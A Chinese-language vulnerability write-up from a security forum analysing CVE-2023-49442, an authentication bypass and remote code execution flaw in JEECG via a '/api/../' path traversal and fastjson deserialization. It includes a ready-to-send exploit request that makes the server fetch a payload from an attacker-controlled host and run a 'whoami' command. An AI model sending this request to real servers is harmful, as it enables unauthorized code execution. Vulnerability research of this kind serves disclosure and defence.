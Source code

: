 

# JEECG 代码执行漏洞-CVE-2023-49442 - 先知社区

JEECG 代码执行漏洞-CVE-2023-49442

- - -

# JEECG 代码执行漏洞分析-CVE-2023-49442

## 漏洞描述

JEECG 4.0 及之前版本中，由于接口鉴权时未过滤路径遍历，攻击者可构造 url 绕过鉴权，攻击者可构造恶意请求利用 jeecgFormDemoController.do?interfaceTest 接口进行远程代码执行

## 影响版本

-   <= 4.0

## 漏洞分析

根据 jeecgFormDemoController.do?interfaceTest 定位漏洞代码

[![](assets/1705890745-0d647010498ef502c1dc04a35344c9fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140531-c070f8da-b690-1.png)  
可以看到接受 3 个参数：serverUrl、requestBody、requestMethod，然后根据 requestMethod 的值调用 HttpRequest.sendPost 或 HttpRequest.sendGet  
这 2 个方法的区别就是发送 get 或 post 请求，请求传入的 serverUrl

[![](assets/1705890745-586f0fd0e9ebef1a8f667420f43d8e1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140548-cabf8626-b690-1.png)

[![](assets/1705890745-e7b09ad57f0c2be796454e209f9ae4c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140600-d1fb026c-b690-1.png)  
之后获取请求结果，调用 JSONObject.parseObject(result)

[![](assets/1705890745-809f8f2ea942f64f6f7a8272d7d83340.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140618-dc278706-b690-1.png)  
因为这里使用的是 fastjson

[![](assets/1705890745-eff3e417a1f577a1e16ada17ddad1da7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140630-e3a9f2a2-b690-1.png)  
并且其版本为 1.2.31，为漏洞版本

[![](assets/1705890745-2cf1f83811912470ae211433e126dd16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140648-ee575de8-b690-1.png)  
所以我们只要构造 serverUrl 回显的内容为 fastjson 代码执行的 payload 即可  
但实际直接访问该路由是会 302 跳转的，应该是拦截器做了限制

[![](assets/1705890745-29c44c6988c9df1b4de32d7e41af5e59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140704-f7a29732-b690-1.png)  
观看代码，可以发现 api 接口，是不做限制的，只要以/api/开头就行

[![](assets/1705890745-5d0c0fad5a495241aa4409ac801b5c63.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140717-ff53ed46-b690-1.png)  
又因为其 alwaysUseFullPath 为值 false，在处理过程中会对 uri 进行标准化处理，所以我们可以利用/api/../的形式来进行绕过

[![](assets/1705890745-46c4cf819576394224cec1d37b8a958a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140733-09526ce6-b691-1.png)

```bash
/api/../jeecgFormDemoController.do?interfaceTest=
```

[![](assets/1705890745-dc24161fa886aef7c8a8cd42e87a0545.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140747-11c3979c-b691-1.png)

## 漏洞利用

创建如下远程文件，其内容为 fastjson 代码执行的 payload

[![](assets/1705890745-34c15cf098b7d272b40d3f92fc9f5363.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140812-206d70b0-b691-1.png)  
发送如下请求包

```bash
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET
```

漏洞利用成功

[![](assets/1705890745-6adef62ebf933bc5ca1d0b182200909d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140845-33e30a88-b691-1.png)

## 参考链接

[https://avd.aliyun.com/detail?id=AVD-2023-49442](https://avd.aliyun.com/detail?id=AVD-2023-49442)
